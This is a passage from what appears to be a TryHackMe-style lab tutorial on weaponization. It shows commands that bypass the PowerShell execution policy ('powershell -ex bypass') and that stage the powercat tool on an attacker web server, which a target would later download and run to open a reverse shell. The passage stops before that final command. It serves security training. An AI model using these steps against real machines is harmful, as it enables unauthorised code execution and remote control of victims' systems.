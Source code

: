 We can also easily change the PowerShell execution policy by running:

```CMD
      
PS C:\Users\thm\Desktop> Set-ExecutionPolicy -Scope CurrentUser RemoteSigned

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
http://go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes [A] Yes to All [N] No [L] No to All [S] Suspend [?] Help (default is "N"): A
```

Bypass Execution Policy

Microsoft provides ways to disable this restriction. One of these ways is by giving an argument option to the PowerShell command to change it to your desired setting. For example, we can change it to bypass policy which means nothing is blocked or restricted. This is useful since that lets us run our own PowerShell scripts.

In order to make sure our PowerShell file gets executed, we need to provide the bypass option in the arguments as follows, 

```CMD

           
C:\Users\thm\Desktop>powershell -ex bypass -File thm.ps1
Welcome to Weaponization Room!


```

Now, let's try to get a reverse shell using one of the tools written in PowerShell, which is powercat. On your AttackBox, download it from GitHub and run a webserver to deliver the payload.

```Terminal

           
			
user@machine$ git clone https://github.com/besimorhino/powercat.git
Cloning into 'powercat'...
remote: Enumerating objects: 239, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 239 (delta 0), reused 2 (delta 0), pack-reused 235
Receiving objects: 100% (239/239), 61.75 KiB | 424.00 KiB/s, done.
Resolving deltas: 100% (72/72), done.

```

Now, we need to set up a web server on that AttackBox to serve the powercat.ps1 that will be downloaded and executed on the target machine. Next, change the directory to powercat and start listening on a port of your choice. In our case, we will be using port 8080.

```Terminal

           
			
user@machine$ cd powercat
user@machine$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
 


```
